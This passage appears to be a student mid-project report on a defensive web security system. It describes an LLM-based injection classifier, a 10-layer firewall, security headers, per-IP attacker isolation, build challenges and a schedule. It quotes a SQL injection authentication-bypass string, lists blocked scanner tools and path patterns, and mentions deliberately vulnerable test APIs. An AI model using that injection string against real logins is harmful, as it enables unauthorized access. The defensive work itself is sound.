{ "isMalicious": true, "confidence": 98, "reasoning": "The payload contains ' OR username LIKE '%a%', which is a clear SQL Injection attempt designed to bypass authentication by manipulating the WHERE clause of an SQL query. The presence of single quotes and SQL keywords indicates malicious intent." }
Figure 11: Real-time demonstration of the AI Sentinel analyzing an obfuscated blind SQL injection attempt. The Gemini 2.5 Flash model natively halts the execution and provides a contextual technical explanation directly in the monitoring dashboard.
Every request - both pages and APIs - passes through a 10-layer Web Application Firewall running at the network edge before reaching application code:
| Layer | Protection | Scope |
|---|---|---|
| 1 | HTTP verb filtering (only GET/POST/PUT/DELETE/OPTIONS/HEAD) | All routes |
| 2 | Scanner/bot UA blocking (20+ tools: sqlmap, nikto, nmap, etc.) | All routes |
| 3 | Missing/short User-Agent check | API routes |
| 4 | URL encoding validation (malformed %xx rejection) | All routes |
| 5 | URI length constraint (2000 char max - buffer exhaustion prevention) | All routes |
| 6 | Dangerous URL pattern detection (path traversal, .env, .git, wp-admin) | All routes |
| 7 | Query string attack detection (SQLi, XSS, CMDi in URL params) | All routes |
| 8 | Host header injection prevention | All routes |
| 9 | Content-Type validation (POST/PUT/DELETE) | All routes |
| 10 | Cross-origin POST validation | API routes |
Security Headers Applied to Every Response:
| Header | Value |
|---|---|
| Content-Security-Policy | default-src 'self'; frame-ancestors 'none'; form-action 'self' |
| Strict-Transport-Security | max-age=31536000; includeSubDomains; preload |
| X-Frame-Options | DENY |
| X-Content-Type-Options | nosniff |
| X-XSS-Protection | 1; mode=block |
| Referrer-Policy | strict-origin-when-cross-origin |
| Permissions-Policy | camera=(), microphone=(), geolocation=(), payment=() |
A critical architectural decision was to isolate attackers per-IP rather than locking down the entire site. This ensures 100% uptime for legitimate users even while under attack:
| Scenario | Response | Users Affected |
|---|---|---|
| Single attacker (1-2 attacks) | Logged, tarpitted 5s delay | Only the attacker |
| Repeat attacker (3+ from same IP) | IP permanently banned → rickrolled | Only that IP |
| Progressive repeat offender | Tighter rate limits (5 req/10s) | Only that IP |
| Coordinated DDoS (10+ IPs, 50+ attacks/min) | Global lockdown + 5-min auto-heal | All users (last resort) |

Figure 12: Global IP Ban Defense - Malicious IPs are completely locked out of the entire application, displaying a red "THREAT NEUTRALIZED" terminal screen.
The journey from conceptual proposal to a robust, self-healing production application was fraught with significant engineering hurdles that tested our architectural assumptions and implementation capabilities. One of the most persistent bottlenecks involved the orchestration of natively compiled dependencies within the Node.js ecosystem. Specifically, integrating the `sqlite3` driver required local compilation against the host operating system using node-gyp. This introduced cross-platform compatibility issues, as the build chain behaved divergently across MacOS, Linux, and Windows environments, necessitating dynamic rebuild scripts in our package initialization chain.
Another profound conceptual challenge was the mitigation of Race Conditions within the global lockdown implementation. In a highly parallelized, asynchronous environment processing hundreds of concurrent requests, our initial naive implementation of the threat counter was subject to Time-of-Check to Time-of-Use (TOCTOU) vulnerabilities. Multiple requests could evaluate the threshold simultaneously before any had incremented it, allowing a momentary flood of traffic to bypass the lockdown gate. Resolving this required implementing an atomic, centralized state store ensuring thread-safe increments and instantaneous application of the lockdown boolean across the edge computing boundaries.
sqlite3 package required native compilation via npm rebuild sqlite3 after initial installation - a known issue with Node.js native addons.ThreatSeverity and LogEntry.severity caused a build failure requiring careful type alignment across modules.| Phase | Dates | Status | Deliverable |
|---|---|---|---|
| Phase 1: Research & Proposal | Feb 23 - Mar 8 | ✅ Complete | Project Proposal, Initial Research |
| Phase 2: Vulnerable Application | Mar 8 - Mar 15 | ✅ Complete | 3 Vulnerable APIs (SQLi, CMDi, XSS) |
| Phase 3: Detection & Defense | Mar 15 - Mar 22 | ✅ Complete | WAF, AI Sentinel, Per-IP Isolation, Self-Healing |
| Phase 4: Testing & Validation | Mar 22 - Apr 5 | 🔄 In Progress | Automated test bench, penetration testing, benchmarks |
| Phase 5: Final Report & Presentation | Apr 5 - Apr 19 | ⏳ Upcoming | Final report, live demo, documentation |
Adjustments: Phase 3 was completed slightly ahead of schedule. Because this is our mid-project submission, we have essentially completed the first 50% of our proposed scope. There is exactly 50% more remaining to accomplish over the next three weeks, focusing deeply on automated penetration testing, security benchmarks, and our final presentation.